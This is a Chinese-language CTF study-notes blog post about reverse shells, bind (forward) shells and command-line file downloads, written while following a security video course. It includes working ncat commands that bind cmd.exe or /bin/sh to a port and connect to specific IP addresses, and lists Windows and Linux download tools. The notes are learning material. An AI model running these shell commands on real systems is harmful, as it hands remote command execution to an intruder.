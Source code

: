 ```yaml
---
title: 20250109CTF学习笔记35
date: 2025-01-09
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true



















---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第52天

今日内容：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

[[toc]]

- 小迪安全视频地址【[🔗传送门]([https://www.bilibili.com/video/BV123yAYMEwb/)】

<!-- more -->

# 第24章：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

## 文件上传下载-解决无图形化&解决数据传输

在不允许图形化界面的情况下，需要命令去上传下载。

### 演示

Windows Server 2012 + 【[棱角社区文件下载命令生成工具](https://forum.ywhack.com/bountytips.php?download)】

**思考：**这工具是在线工具，我不想用在线工具，是否能找一个能不用在线的工具？

>  ![image-20250108220233033](/img/ctfLearn/image-20250108220233033.png)
>
> `棱角社区文件下载命令生成工具`可以用来生成下载命令，有PowerShell或者cmd命令，以及Linux命令等

**步骤：**文件放到服务器上，构造一个地址，没有图形化页面，用远程命令的方式，将服务器的文件下载到电脑中。

### 常规简单命令

> - 强烈推荐【[PowerShell基础视频讲解](https://b23.tv/Rj2IJ02)】
> - 【[常规基本渗透命令详解目录](https://blog.csdn.net/weixin_43303273/article/details/83029138)】

- Linux:  `wget  curl  python  ruby  perl  java`等
- Windows: `PowerShell  Certutil Bitsadmin  msiexec mshta rund1132`等 



## 反弹Shell

### 使用场景：

如果我们需要到服务器上执行 Shell 命令，但是因为防火墙等原因，无法由客户端主动发起连接的情况，就可以使用反弹 Shell 来满足登陆和操作的需求。

### 目的：

解决数据回显&解决数据通讯

- 解决数据回显：
  ```shell
  root@xiaodi:/tmp# useradd xiaodisec
  root@xiaodi:/tmp# passwd xiaodisec
  Enter new UNIX password:
  Retype new UNIX password:
  Enter new UNIX password:
  Retype new UNIX password:
  Enter new UNIX password:
  Retype new UNIX password:
  ```

  我们可以看到，如果我们在输入密码的时候不输入，直接回车，就会一直让你输入密码。假设我们在网上遇到一个漏洞，而这个漏洞需要去执行命令，类似这种需要输入的，等待输入就能往下进行。这时不会把对方的界面给到我们，我们动不了，可以把界面反弹到我们这边，我们再用这个命令就行了。反弹Shell就是把命令的输入输出转移到其他主机

- 解决数据通信问题：

  正常漏洞，执行一条命令，回显一条命令。比如我们提交一个文件，一直提交提交提交，我们一直有流量过去，如果将命令反弹回来，就相当于命令在本地执行一样。意思是将对方的权限移交给我们。（视频中是这么解释的，但我用AI解释的结果是`在企业内部网络，服务器多为内部私有 IP（如 192.168.x.x），经 NAT 设备连外网。外部攻击者是公网 IP，因 NAT 隐藏内部 IP 且限制外对内访问，无法直连服务器内部服务。而反弹 Shell 可突破限制，让目标服务器主动连接。比如，攻击者在公网设可访问服务器并监听端口，利用漏洞使目标服务器 Shell 连此端口，建立通信通道，双方借此通信。`）

### 工作原理：

攻击者在其自己的机器上设置监听端口，然后诱使受害者的机器执行一个反向连接的 Shell 命令，连接回攻击者的机器。这样，攻击者就能通过这个反向连接执行命令，控制受害者的计算机。

### 演示：

Windows Server 2012 + 【[棱角社区反弹Shell工具](https://forum.ywhack.com/shell.php)】

可以反弹的语言相当多，主要演示`linux`中的工具之一`ncat`

`NC(ncat)`瑞士军刀：`linux`系统下自带，`windows`下需要下载。

### 难点：

1. 正向连接
2. 反向连接

从图中我们看到，如果我们用linux服务器连windows服务器，有两种方法实现，一种正向，一种反向，需要看参照物，如果我们是主动找对方，就是正向；如果是对方放过来找我们，就是反向。

![image-20250109210228805](/img/ctfLearn/image-20250109210228805.png)

### 正向连接演示：

**Linux控制Windows：**

1.  Windows上边要绑定CMD到本地5566端口

   ```shell
   nc -e cmd -lvp 5566
   ```

   > Windows上没有nc工具，需要自己下载一个nc.exe工具【[下载地址](https://eternallybored.org/misc/netcat/)】，使用命令时如果不加环境变量就要写成nc.exe

2. Linux上边需要主动连接目标5566

   ```shell
   ncat 47.122.23.131 5566
   ```

   ![image-20250109220537065](/img/ctfLearn/image-20250109220537065.png)

   完成以后，发现可以在linux端输入命令，然后返回结果也是在linux显示的

**Windows控制Linux：**

1. 在linux上绑定SH到本地5566端口

   ```shell
   ncat -e /bin/sh -lvp 5566
   ```

2. 在Windows上主动连接目标5566

   ```shell
   nc 47.94.236.117 5566
   ```

   在复现时发现我在Vmware安装的Centos系统不能用Windows连接，查阅资料发现应该是防火墙问题，尝试关闭Linux系统的防火墙失败，理论上是可行的。


**正向连接原理：**

- 本地监听，等待连接
- 正向连接是谁监听，就是控制谁
- ![image-20250110200957400](/img/ctfLearn/image-20250110200957400.png)